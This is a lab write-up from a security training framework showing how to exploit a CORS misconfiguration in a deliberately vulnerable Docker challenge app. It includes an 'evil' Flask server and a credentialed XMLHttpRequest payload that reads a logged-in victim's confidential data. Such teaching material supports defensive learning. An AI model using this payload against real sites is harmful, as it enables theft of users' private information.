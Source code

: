 # KBID 112 - CORS exploitation

## Running the app

```
$ sudo docker pull skfchallenges/cors-exploitation
```

```text
$ sudo docker run -p5000:5000 skfchallenges/cors-exploitation
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Xebia NL!](.gitbook/assets/xebia_logo-large-transparent.png)

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.  
  
From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.  
  
Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin  response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as the regular user.

![](.gitbook/assets/cors3.png)

{% hint style="info" %}
username : admin  
password:  admin
{% endhint %}

![](.gitbook/assets/sensitive-info.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](.gitbook/assets/cors1.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

Now if we add a "Origin" request header we find that the value from the added Origin header is dynamically allocated to the "Access-Control-Allow-Origin" header.

![](.gitbook/assets/cors2%20%281%29.png)

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request  from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing\_for\_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies. 

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

#### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://localhost:5000/confidential', true);
  req.withCredentials = true;
  req.send();
  
  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.  
  
In this request we find the "Origin" header appended to the request from source "http://localhost:1337" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working. 

![](.gitbook/assets/cors2.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).   
  
Now, whenever the browser discovers the following header combination:

```text
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

It triggers a hidden safety catch in CORS. 

![](.gitbook/assets/cors-evil-blocked.png)

  
This disallows the developer to disable the SOP entirely and expose your site to everyone. At least so the browser thinks, because we have obviously already seen that the dynamically allocation of the origin header achieves the same effect! 

Now we refresh the page and let our evil script perform the request as intended!

![](.gitbook/assets/final.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

